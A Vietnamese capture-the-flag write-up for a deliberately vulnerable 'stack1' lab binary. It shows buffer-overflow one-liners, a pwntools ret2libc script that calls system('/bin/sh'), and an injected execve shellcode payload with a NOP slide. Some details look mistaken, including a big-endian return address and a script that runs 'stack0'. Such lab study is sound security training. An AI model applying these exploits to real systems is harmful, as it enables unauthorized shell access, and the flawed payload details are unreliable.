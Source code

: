 # Stack 1

## Description

![description](description.png)

Khi chạy chương trình yêu cầu truyền vào 1 argument. Chúng ta cùng xem thử qua hàm main nhé.
![main](main.png)

![main2](main2.png)

bỏ qua phần check arg vào main, chúng ta quan tâm từ main+35. Nhìn qua thì nó tương tự bài stack0, chúng ta có thể ghi đè modified, thay đổi EIP. Và modified yêu cầu một giá trị cụ thể chứ ko chỉ là khác 0 như bài trước, đó là: `0x61626364`. Và một điểm khác hàm strcpy từ arg[1] vào buf thay vì hàm gets.

## Solution

### Buffer overflow

`payload: ./stack1 $(python -c 'print "a"*64+"\x64\x63\x62\x61"')`

### Ret2ret 

cho EIP jump về  `0x080484b2`. phần padding vẫn là 80byte giống stack0.

`payload: ./stack1 $(python -c 'print "a"*80 + "\x08\x04\x84\xb2"')`

![ret2ret](ret2ret.png)

## spawn shell

bài này tương tự stack0, ta chỉ cần thay đổi script 1 chút.

### System()

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack1')

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

#run process with arg payload
p = process(['./stack1', payload])
p.interactive()
```

### inject shellcode

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack1')

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process(['./stack0', payload])
p.sendline(payload)
p.interactive()
```

![shell1](shell1.png)